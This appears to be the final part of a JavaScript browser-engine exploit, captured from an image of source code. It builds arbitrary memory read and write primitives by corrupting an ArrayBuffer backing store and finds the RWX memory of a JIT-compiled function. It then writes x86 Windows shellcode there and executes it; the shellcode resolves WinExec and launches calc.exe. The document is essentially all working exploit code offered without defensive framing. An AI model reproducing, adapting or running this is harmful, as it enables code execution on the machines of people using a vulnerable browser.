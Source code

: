 ```

    function read(addr) {
        if (backing_store_in_hign_mem)
            big_arr[backing_store_idx] = u2f(addr, dataNearBS);
        else
            big_arr[backing_store_idx] = u2f(dataNearBS, addr);
        return data_view.getInt32(0, true);
    }

    function write(addr, msg) {
        if (backing_store_in_hign_mem)
            big_arr[backing_store_idx] = u2f(addr, dataNearBS);
        else
            big_arr[backing_store_idx] = u2f(dataNearBS, addr);
        data_view.setInt32(0, msg, true);
    }

    var OptJSFuncAddr = (OptObj_idx_in_hign_mem ?
        f2u(big_arr[OptObj_idx])[1] :
        f2u(big_arr[OptObj_idx])[0]) - 1;
    log("[+] OptJSFuncAddr: " + hex(OptJSFuncAddr));

    var OptJSFuncCodeAddr = read(OptJSFuncAddr + 0x18) - 1;
    log("[+] OptJSFuncCodeAddr: " + hex(OptJSFuncCodeAddr));

    var RWX_Mem_Addr = OptJSFuncCodeAddr + 0x40;
    log("[+] RWX Mem Addr: " + hex(RWX_Mem_Addr));

    var shellcode = new Uint8Array(
           [0x89, 0xe5, 0x83, 0xec, 0x20, 0x31, 0xdb, 0x64, 0x8b, 0x5b, 0x30, 0x8b, 0x5b, 0x0c, 0x8b, 0x5b,
            0x1c, 0x8b, 0x1b, 0x8b, 0x1b, 0x8b, 0x43, 0x08, 0x89, 0x45, 0xfc, 0x8b, 0x58, 0x3c, 0x01, 0xc3,
            0x8b, 0x5b, 0x78, 0x01, 0xc3, 0x8b, 0x7b, 0x20, 0x01, 0xc7, 0x89, 0x7d, 0xf8, 0x8b, 0x4b, 0x24,
            0x01, 0xc1, 0x89, 0x4d, 0xf4, 0x8b, 0x53, 0x1c, 0x01, 0xc2, 0x89, 0x55, 0xf0, 0x8b, 0x53, 0x14,
            0x89, 0x55, 0xec, 0xeb, 0x32, 0x31, 0xc0, 0x8b, 0x55, 0xec, 0x8b, 0x7d, 0xf8, 0x8b, 0x75, 0x18,
            0x31, 0xc9, 0xfc, 0x8b, 0x3c, 0x87, 0x03, 0x7d, 0xfc, 0x66, 0x83, 0xc1, 0x08, 0xf3, 0xa6, 0x74,
            0x05, 0x40, 0x39, 0xd0, 0x72, 0xe4, 0x8b, 0x4d, 0xf4, 0x8b, 0x55, 0xf0, 0x66, 0x8b, 0x04, 0x41,
            0x8b, 0x04, 0x82, 0x03, 0x45, 0xfc, 0xc3, 0xba, 0x78, 0x78, 0x65, 0x63, 0xc1, 0xea, 0x08, 0x52,
            0x68, 0x57, 0x69, 0x6e, 0x45, 0x89, 0x65, 0x18, 0xe8, 0xb8, 0xff, 0xff, 0xff, 0x31, 0xc9, 0x51,
            0x68, 0x2e, 0x65, 0x78, 0x65, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x89, 0xe3, 0x41, 0x51, 0x53, 0xff,
            0xd0, 0x31, 0xc9, 0xb9, 0x01, 0x65, 0x73, 0x73, 0xc1, 0xe9, 0x08, 0x51, 0x68, 0x50, 0x72, 0x6f,
            0x63, 0x68, 0x45, 0x78, 0x69, 0x74, 0x89, 0x65, 0x18, 0xe8, 0x87, 0xff, 0xff, 0xff, 0x31, 0xd2,
            0x52, 0xff, 0xd0, 0x90, 0x90, 0xfd, 0xff]
    );

    log("[+] writing shellcode ... ");
    for (let i = 0; i < shellcode.length; i++)
        write(RWX_Mem_Addr + i, shellcode[i]);

    log("[+] execute shellcode !");
    opt_me();
}
```